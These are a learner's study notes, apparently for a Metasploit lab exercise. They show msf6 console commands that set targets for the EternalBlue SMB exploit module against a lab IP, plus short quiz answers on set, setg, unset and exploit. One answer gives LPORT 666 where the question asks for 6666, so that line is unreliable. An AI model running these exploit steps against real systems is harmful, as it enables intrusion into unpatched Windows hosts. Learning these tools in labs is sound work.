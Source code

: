 ```
>>> mencionar setg, unsetg


msf6 exploit(windows/smb/ms17_010_eternalblue) > setg rhosts 10.10.228.121
rhosts => 10.10.228.121
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > 




```


### Hablar del payload (meterpretar)

```
>> Meterpreter como payload

mostar otros payloads



```



##### How would you set the LPORT value to 6666?  

set lport 666

##### How would you set the global value for RHOSTS  to 10.10.19.23 ?  

setg rhosts 10.10.19.23


#### What command would you use to clear a set payload?  
unset payload

### What command do you use to proceed with the exploitation phase?

exploit